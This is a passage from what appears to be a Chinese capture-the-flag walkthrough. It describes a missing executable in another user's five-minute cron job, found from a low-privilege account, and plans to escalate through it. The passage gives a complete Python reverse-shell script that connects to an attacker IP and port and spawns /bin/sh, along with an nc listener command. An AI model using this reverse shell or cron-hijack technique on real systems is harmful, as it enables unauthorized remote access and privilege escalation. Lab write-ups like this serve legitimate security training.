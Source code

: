 7. martin用户没有root权限，探测敏感目录`/tmp`、`/etc/crontab`发现jimmy用户的5分钟自动定时任务，但是执行文件不存在：

![](./1052/10.PNG)

8. 编写python反弹shell脚本作为执行文件，增加执行权限，同时查找攻击机未在使用的端口作为监听端口：

``` bash
cd /tmp
touch sekurity.py
vi sekurity.py
chmod +x sekurity.py

netstat -pantu
nc -lvp 4444
```

反弹shell脚本:

``` python
#!/usr/bin/python
import os,subprocess,socket

s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("攻击机IP地址","攻击机监听端口"))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p = subprocess.call(["/bin/sh","-i"])
```
